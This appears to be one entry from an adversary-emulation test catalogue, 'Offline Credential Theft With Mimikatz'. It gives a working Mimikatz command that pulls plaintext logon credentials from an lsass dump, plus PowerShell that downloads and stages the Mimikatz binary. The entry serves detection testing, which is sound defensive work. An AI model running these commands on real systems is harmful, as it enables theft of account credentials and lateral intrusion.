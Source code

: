 ## Atomic Test #9 - Offline Credential Theft With Mimikatz

The memory of lsass.exe is often dumped for offline credential theft attacks. Adversaries commonly perform this offline
analysis with
Mimikatz. This tool is available at https://github.com/gentilkiwi/mimikatz and can be obtained using the
get-prereq_commands.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| mimikatz_exe | Path of the Mimikatz binary | string | PathToAtomicsFolder&#92;T1003&#92;bin&#92;mimikatz.exe|
| input_file | Path of the Lsass dump | Path | %tmp%&#92;lsass.DMP|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
#{mimikatz_exe} "sekurlsa::minidump #{input_file}" "sekurlsa::logonpasswords full" exit
```

#### Dependencies:  Run with `powershell`!

##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})

##### Check Prereq Commands:

```powershell
if (Test-Path #{mimikatz_exe}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200308/mimikatz_trunk.zip" -OutFile "$env:TEMP\Mimi.zip"
Expand-Archive $env:TEMP\Mimi.zip $env:TEMP\Mimi -Force
New-Item -ItemType Directory (Split-Path #{mimikatz_exe}) -Force | Out-Null
Copy-Item $env:TEMP\Mimi\x64\mimikatz.exe #{mimikatz_exe} -Force
```

##### Description: Lsass dump must exist at specified location (#{input_file})

##### Check Prereq Commands:

```powershell
cmd /c "if not exist #{input_file} (exit /b 1)" 
```

